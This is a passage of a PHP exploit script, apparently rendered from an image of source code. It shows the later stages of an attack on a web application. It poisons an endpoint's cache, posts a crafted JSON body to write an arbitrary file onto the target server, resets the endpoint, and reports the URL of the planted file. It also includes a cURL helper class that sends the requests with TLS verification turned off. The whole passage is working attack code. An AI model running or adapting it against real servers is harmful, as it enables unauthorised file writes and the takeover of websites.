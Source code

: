 ```php

cache_poison($endpoint, $cache);

# Write the file
$json = (array) $browser->post(TYPE_JSON, json_encode($file));


# Stage 3: Restore endpoint's behaviour

cache_reset($endpoint, $cache);

if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
{
    e("Failed to write file.");
}

$file_url = $url . '/' . $file['filename'];
x("File written: $file_url");


# HTTP Browser

class Browser
{
    private $url;
    private $controller = CONTROLLER;
    private $action = ACTION;

    function __construct($url)
    {
        $this->url = $url;
    }

    function post($type, $data)
    {
        $headers = [
            "Accept: " . TYPE_JSON,
            "Content-Type: $type",
            "Content-Length: " . strlen($data)
        ];
        $url = $this->url . '/' . $this->controller . '/' . $this->action;

        $s = curl_init(); 
        curl_setopt($s, CURLOPT_URL, $url);
        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
        curl_setopt($s, CURLOPT_POST, 1);
        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
        $output = curl_exec($s);
        $error = curl_error($s);
        curl_close($s);

        if($error)
        {
            e("cURL: $error");
        }

        return json_decode($output);
    }
}

```